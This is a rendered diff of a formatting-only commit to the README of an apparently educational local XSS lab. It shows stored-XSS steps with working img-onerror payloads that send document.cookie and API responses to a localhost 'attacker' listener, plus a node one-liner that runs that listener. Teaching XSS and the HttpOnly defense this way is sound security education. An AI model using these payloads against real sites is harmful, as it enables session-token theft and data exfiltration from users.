

Before and after one commit to nayabnoorsmn/xss-lab, a Markdown page: README.md, the part around one of its changes. Shown at 81% size. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

Commit message:
Enhance README formatting and explanations
Updated formatting for clarity and consistency in README.

````diff
--- a/README.md
+++ b/README.md
@@ -185,66 +185,83 @@ This step proves the payload is stored server-side, not just reflected in your c
 - Post the payload: `<img src=x onerror="alert('XSS')">`
 - Close the browser tab completely.
 - Reopen http://localhost:3000.
--The alert fires again, before you interact with anything.
+- The alert fires again, before you interact with anything.
 
-Why it works: on every page load, the client calls GET /api/comments, receives the stored raw HTML, and passes it to innerHTML. The browser parses the string fresh each time — so the payload re-executes on every visit.
+**Why it works:** on every page load, the client calls `GET /api/comments`, receives the stored raw HTML, and passes it to `innerHTML`. The browser parses the string fresh each time — so the payload re-executes on every visit.
 
-Teaching point: With Reflected XSS, a victim must click a crafted link. With Stored XSS, no link is needed — anyone who visits the page is a victim.
+**Teaching point:** With Reflected XSS, a victim must click a crafted link. With Stored XSS, no link is needed — anyone who visits the page is a victim.
 
 ---
 
-Step 3 — Cookie Theft
+### Step 3 — Cookie Theft
 This step shows how an attacker exfiltrates session data.
 
-3a. Set a "session" cookie for the demo
-Open DevTools → Console on http://localhost:3000:
+#### 3a. Set a "session" cookie for the demo
+Open DevTools → Console on `http://localhost:3000`:
 
-javascript
+```
 document.cookie = "session=demo-secret-token-123; path=/";
+```
+
 Confirm it's set:
 
-javascript
+```
 console.log(document.cookie);
 // → session=demo-secret-token-123
-⚠️ Real-world note: Production session cookies should be marked HttpOnly,
-which prevents JavaScript from reading them. We're using a JS-readable cookie here
-so the demo works. Discussing HttpOnly as a defense is the point of this step.
+```
 
-3b. Start a local exfiltration listener
+> ⚠️ Real-world note: Production session cookies should be marked `HttpOnly`,
+> which prevents JavaScript from reading them. We're using a JS-readable cookie here
+> so the demo works. Discussing `HttpOnly` as a defense is the point of this step.
+
+#### 3b. Start a local exfiltration listener
 Open a second terminal and run a tiny HTTP listener on port 4000:
 
-bash
+```
 node -e "require('http').createServer((q,r)=>{console.log('STOLEN:',q.url);r.end('ok')}).listen(4000)"
+```
+
 Leave it running. It will log any incoming requests.
 
-3c. Post the exfiltration payload
+#### 3c. Post the exfiltration payload
 Submit this as a comment:
 
-html
+```
 <img src=x onerror="fetch('http://localhost:4000/steal?c='+encodeURIComponent(document.cookie))">
+```
+
 Then reload the page.
 
-3d. Watch the result
+#### 3d. Watch the result
 In your listener terminal, you should see:
 
-text
+```
 STOLEN: /steal?c=session%3Ddemo-secret-token-123
-The URL-decoded version is session=demo-secret-token-123 — the victim's session token, now in the attacker's hands.
+```
 
-Step 4 — Session Hijacking Scenario (Advanced)
+The URL-decoded version is `session=demo-secret-token-123` — the victim's session token, now in the attacker's hands.
+
+---
+
+### Step 4 — Session Hijacking Scenario (Advanced)
 To make the impact concrete, you can simulate a full session-hijack flow:
 
-The setup:
+**The setup:**
 
-App runs on http://localhost:3000 (the "victim" app).
+- App runs on `http://localhost:3000` (the "victim" app).
+- Attacker listener runs on `http://localhost:4000` (the "attacker" server).
 
-Attacker listener runs on http://localhost:4000 (the "attacker" server).
+**The flow:**
 
-The flow:
+- A victim (e.g., a logged-in admin) visits the comment board.
+- The stored payload fires in their browser.
+- The payload runs a script that calls the victim app's API as that victim and sends the response to the attacker.
 
-A victim (e.g., a logged-in admin) visits the comment board.
+**Example payload** — exfiltrate the victim's view of all comments:
 
-The stored payload fires in their browser.
+```
+<img src=x onerror="fetch('/api/comments').then(r=>r.text()).then(t=>fetch('http://localhost:4000/exfil?d='+encodeURIComponent(t)))">
+```
 
-The payload runs a script that calls the victim app's API as that victim and sends the response to the attacker.
+**Example payload** — exfiltrate localStorage (if the app stored a token there):
 
````
Also changed, not shown: other parts of README.md (+5 -8 lines).
